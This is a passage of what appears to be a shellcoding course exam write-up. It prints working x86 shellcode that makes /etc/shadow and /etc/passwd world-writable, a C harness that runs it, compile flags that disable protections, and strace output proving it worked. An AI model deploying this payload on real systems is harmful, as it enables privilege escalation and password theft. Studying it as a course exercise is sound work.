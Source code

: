 unsigned char code[] = \
"\x31\xc9\xf7\xe1\xbe\x2f\x65\x74\x63\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x56\x89\xe3\x04\x0f\x66\xb9\xb6\x01\xcd\x80\x89\xd0\x50\x68\x73\x73\x77\x64\x04\x0f\x68\x2f\x2f\x70\x61\x56\x54\x5b\xcd\x80\x89\xd0\x40\xcd\x80";

main() {
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
</code></pre><p>To compile it I used <code>gcc</code>:</p><pre><code class="language-bash">gcc -fno-stack-protector -z execstack -o test_polymorphic_shellcode test_polymorphic_shellcode.c
</code></pre><p>Once I've run it, I could confirm it successfully changes the permissions over the files <code>/etc/passwd</code> and <code>/etc/shadow</code>:</p><pre><code class="language-bash">rbct@slae:~/exam/assignment_6/1$ sudo strace -e trace=chmod ./test_polymorphic_shellcode 
# Shellcode length: 56
# chmod("/etc//shadow", 0666)             = 0
# chmod("/etc//passwd", 0666)             = 0

rbct@slae:~/exam/assignment_6/1$
</code></pre><p>As you can see, the syscalls <code>chmod</code> returned the value <code>0</code> in both cases, which means it managed to change the permissions and exit gracefully.</p>